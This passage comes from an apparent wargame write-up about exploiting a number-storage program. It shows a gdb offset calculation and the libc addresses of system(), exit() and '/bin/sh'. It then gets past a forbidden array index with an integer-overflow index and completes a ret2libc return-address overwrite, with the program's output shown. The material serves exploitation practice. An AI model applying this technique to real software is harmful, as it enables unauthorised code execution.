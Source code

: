 ```
eip            0x8048928        0x8048928 <main+517>
eflags         0x246    [ PF ZF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb) p 0xffffd71c - 0xffffd554
$1 = 456
(gdb)
```

We need to write 456 byte to reach the EIP, but remember the array is an int, and one index equal 4 byte.

This means that data[114], is located at the 456 byte of the array, and data[115] at 460 and so on....

So we must not write our 3 addresses at the 456 - 457 - 458 bytes.

Which give us 

```
data[114] = 4159090384; system()
data[115] = 4159040368; exit()
data[116] = 4160264172; "/bin/sh"
```

And when we will call read, it will call read_number() with the array overflowing the EIP, with the ret2libc exploit, lets execute that using everything we learned through this guide !

The index we can't store is the 114 one, so lets make an integer overwrite on it.

```
(4294967296) + (114 * 4) / 4 = 1073741938
```

OK, we should have everything now ! Lets finally test if that works...


```
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: read 114
 Index: 114
 Number at data[114] is 4159090384
 Completed read 114 command successfully
Input command: read
 Index: 115
 Number at data[115] is 4159040368
 Completed read  command successfully
Input command: read
 Index: 116
 Number at data[116] is 4160264172
 Completed read command successfully
Input command:
```
